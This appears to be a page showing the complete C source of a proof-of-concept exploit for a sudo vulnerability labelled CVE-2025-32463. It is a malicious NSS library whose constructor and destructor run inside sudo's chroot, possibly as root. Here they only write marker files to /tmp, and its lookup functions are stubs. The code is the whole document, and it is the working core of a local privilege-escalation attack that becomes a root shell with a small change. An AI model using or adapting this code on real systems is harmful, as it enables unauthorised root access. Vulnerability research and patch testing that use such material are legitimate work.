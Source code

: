 Full C source (sudo_cve_2025_32463_poc_source):

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <sys/stat.h>
#include <pwd.h>
#include <grp.h>
#include <nss.h>

static void write_file(const char *path, const char *msg) {
    int fd = open(path, O_CREAT|O_WRONLY|O_TRUNC, 0644);
    if (fd >= 0) {
        write(fd, msg, strlen(msg));
        close(fd);
    }
}

__attribute__((constructor))
static void my_ctor(void) {
    // Executed while sudo has pivoted/chrooted into attacker directory
    write_file("/tmp/nss_poc_constructor", "constructor ran\n");
}

__attribute__((destructor))
static void my_dtor(void) {
    // Executed after sudo unpivots, before process exit
    write_file("/tmp/nss_poc_destructor", "destructor ran as root?\n");
}

// Minimal required NSS entry points returning UNAVAIL

enum nss_status _nss_myhack_getpwnam_r(const char *name, struct passwd *pwd,
    char *buffer, size_t buflen, int *errnop) {
    (void)name; (void)pwd; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}

enum nss_status _nss_myhack_getpwuid_r(uid_t uid, struct passwd *pwd,
    char *buffer, size_t buflen, int *errnop) {
    (void)uid; (void)pwd; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}

enum nss_status _nss_myhack_getgrnam_r(const char *name, struct group *grp,
    char *buffer, size_t buflen, int *errnop) {
    (void)name; (void)grp; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}

enum nss_status _nss_myhack_getgrgid_r(gid_t gid, struct group *grp,
    char *buffer, size_t buflen, int *errnop) {
    (void)gid; (void)grp; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}
```
